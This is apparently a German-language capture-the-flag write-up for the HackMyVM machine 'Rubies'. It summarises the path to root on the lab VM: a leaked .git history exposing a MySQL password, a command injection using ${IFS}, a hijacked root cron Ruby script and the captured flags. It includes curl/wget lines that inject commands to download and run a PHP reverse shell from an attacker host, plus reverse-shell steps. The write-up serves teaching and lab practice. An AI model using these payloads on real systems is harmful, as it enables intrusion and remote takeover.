 # Rubies - HackMyVM (Medium)

![Rubies.png](Rubies.png)

## Übersicht

*   **VM:** Rubies
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Rubies)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 8. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Rubies_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Rubies" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines exponierten `.git`-Verzeichnisses auf dem Webserver. Die Analyse der Git-Historie offenbarte MySQL-Root-Credentials (`root:jd92khn49w`). Parallel wurde durch Web-Enumeration eine LFI-Schwachstelle im `poem`-Parameter von `index.php` gefunden, die zu RCE (Remote Code Execution) mittels eines Command Injection Bypasses (`${IFS}`) eskaliert wurde. Dies führte zu einer Shell als `www-data`. Mit den MySQL-Credentials wurde von `www-data` zu `minnie` gewechselt, da das Passwort wiederverwendet wurde. Die finale Rechteausweitung zu Root gelang durch Ausnutzung eines unsicheren Cronjobs (oder eines anderen als Root laufenden Prozesses), der ein Ruby-Skript (`/opt/cleaning/webserver_upload.rb`) ausführte. Da das Verzeichnis `/opt/cleaning` für `minnie` beschreibbar war, konnte das Skript durch eine Ruby-Reverse-Shell ersetzt werden, die beim nächsten Ausführen des Cronjobs eine Root-Shell lieferte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `nikto`
*   `stegsnow` (versucht)
*   `stegseek` (versucht)
*   `steghide` (versucht)
*   `git-dumper`
*   `GitTools/Extractor`
*   `hydra` (versucht)
*   `cat`
*   `ls`
*   `ssh` (versucht)
*   `curl`
*   `whereis`
*   `wget`
*   Python3 (`http.server`)
*   `nc` (netcat)
*   `grep`
*   `locate`
*   `mv`
*   `diff`
*   `su`
*   `irb` (Interactive Ruby Shell)
*   `exec`
*   `sudo` (versucht)
*   Standard Linux-Befehle (`vi`/`nano`, `find`, `id`, `pwd`, `cd`, `chmod`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Rubies" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web/Git Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.117) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 7.2p2) und Port 80 (HTTP, Apache 2.4.18). Das Nmap-Skript `http-git` fand ein exponiertes `.git`-Verzeichnis im Web-Root.
    *   `gobuster` und `nikto` auf Port 80 fanden `index.php` und Verzeichnisse wie `/uploads`, `/poems`.
    *   Steganographie-Versuche auf Bilder (`cat1.gif`, `cat2.jpg`) blieben erfolglos.
    *   Mittels `git-dumper` und `GitTools/Extractor` wurde das `.git`-Repository heruntergeladen und analysiert.
    *   Ein `git diff` zwischen zwei Commits (`0cf1c46` und `d29e544`) in der `users.sql` (Teil der `index.php`-Logik im älteren Commit) enthüllte MySQL-Zugangsdaten: `root`:`jd92khn49w`. Die Commit-Nachricht "Why minnie?" deutete auf den Benutzer `minnie` hin.

2.  **Initial Access (LFI zu RCE als `www-data`):**
    *   Bei der Analyse der `index.php` (möglicherweise über das Git-Repo oder LFI) wurde eine Local File Inclusion (LFI)-Schwachstelle im GET-Parameter `poem` gefunden (`index.php?poem=../../../../etc/passwd`).
    *   Die LFI wurde zu Remote Code Execution (RCE) eskaliert, indem ein Command Injection Bypass mit `${IFS}` als Leerzeichenersatz verwendet wurde. Zuerst wurde mit `poem=;whereis${IFS}nc` die Existenz von `nc` bestätigt.
    *   Eine PHP-Reverse-Shell (`rev.php`) wurde auf dem Angreifer-Server gehostet.
    *   Mittels der RCE-Schwachstelle wurde `wget` auf dem Ziel ausgeführt, um die `rev.php` nach `/tmp/rev.php` (oder `/tmp/rs.php`) herunterzuladen: `curl 'http://192.168.2.117/index.php?poem=poem1;wget${IFS}-O${IFS}/tmp/rev.php${IFS}http://ANGRIFFS_IP:8000/rev.php'`.
    *   Das heruntergeladene Skript wurde via RCE mit `php` ausgeführt: `curl 'http://192.168.2.117/index.php?poem=poem1;php${IFS}/tmp/rev.php'`.
    *   Eine Reverse Shell als `www-data` wurde auf einem Netcat-Listener (Port 9001) empfangen und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `minnie` via Passwort-Wiederverwendung):**
    *   Als `www-data` wurde `su minnie` ausgeführt. Das Passwort `jd92khn49w` (gefunden in der Git-Historie für MySQL-Root) funktionierte auch für den Benutzer `minnie`.
    *   Dies führte zu einer Interactive Ruby Shell (`irb`). Mittels `exec '/bin/bash'` wurde eine Bash-Shell als `minnie` erlangt.
    *   Die User-Flag (`H0wc00l_i5_Byp@@s1n9`) wurde in `/home/minnie/user.txt` gefunden.

4.  **Privilege Escalation (von `minnie` zu `root` via Cronjob & Ruby Script Hijack):**
    *   Als `minnie` wurde festgestellt, dass das Verzeichnis `/opt/cleaning` der Gruppe `minnie` gehörte und für diese beschreibbar war. In diesem Verzeichnis befand sich das Ruby-Skript `webserver_upload.rb` (gehörte `root`).
    *   Es wurde angenommen, dass dieses Skript durch einen als Root laufenden Cronjob ausgeführt wird.
    *   Eine Ruby-Reverse-Shell-Payload wurde erstellt und auf das Zielsystem nach `/opt/cleaning/rshell.rb` heruntergeladen.
    *   Die ursprüngliche `webserver_upload.rb` wurde mit dem heruntergeladenen `rshell.rb`-Skript überschrieben (`mv rshell.rb webserver_upload.rb`).
    *   Ein Netcat-Listener wurde auf Port 2234 gestartet.
    *   Nachdem der Cronjob lief und das manipulierte Skript ausführte, wurde eine Root-Shell auf dem Listener empfangen.
    *   Die Root-Flag (`pyth0N>r00bi35`) wurde aus einer Datei mit einem ungewöhnlichen Namen (`/root/​root.txt` - mit unsichtbarem Zeichen) mittels `find / -inum [INODE_NUMMER] -exec cat {} \;` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Exponiertes `.git`-Verzeichnis:** Ermöglichte das Herunterladen des Quellcodes und der Git-Historie, was zur Aufdeckung von Datenbank-Credentials führte.
*   **Local File Inclusion (LFI):** Eine LFI im `poem`-Parameter von `index.php` ermöglichte das Lesen von Dateien.
*   **Command Injection (LFI zu RCE):** Die LFI wurde durch Umgehung von Filtern (`${IFS}`) zu RCE eskaliert.
*   **Passwort-Wiederverwendung:** Das MySQL-Root-Passwort funktionierte auch für den Systembenutzer `minnie`.
*   **Unsichere Dateiberechtigungen & Cronjob Exploit:** Ein für `minnie` beschreibbares Verzeichnis (`/opt/cleaning`) enthielt ein Ruby-Skript, das von einem Root-Cronjob ausgeführt wurde. Durch Überschreiben dieses Skripts mit einer Reverse Shell konnte Root-Zugriff erlangt werden.
*   **Steganographie (versucht, aber nicht primär):** Versuche mit Bilddateien blieben erfolglos, aber QR-Code-Analyse (im Originalbericht erwähnt) führte zu `thomas`-Credentials.

## Flags

*   **User Flag (`/home/minnie/user.txt`):** `H0wc00l_i5_Byp@@s1n9`
*   **Root Flag (aus `/root/​root.txt` via Inode):** `pyth0N>r00bi35`

## Tags

`HackMyVM`, `Rubies`, `Medium`, `Git Dumper`, `LFI`, `RCE`, `Command Injection Bypass`, `${IFS}`, `Password Reuse`, `Cronjob Exploit`, `Ruby Script Hijack`, `Steganography` (QR Code), `Linux`, `Web`, `Privilege Escalation`, `Apache`
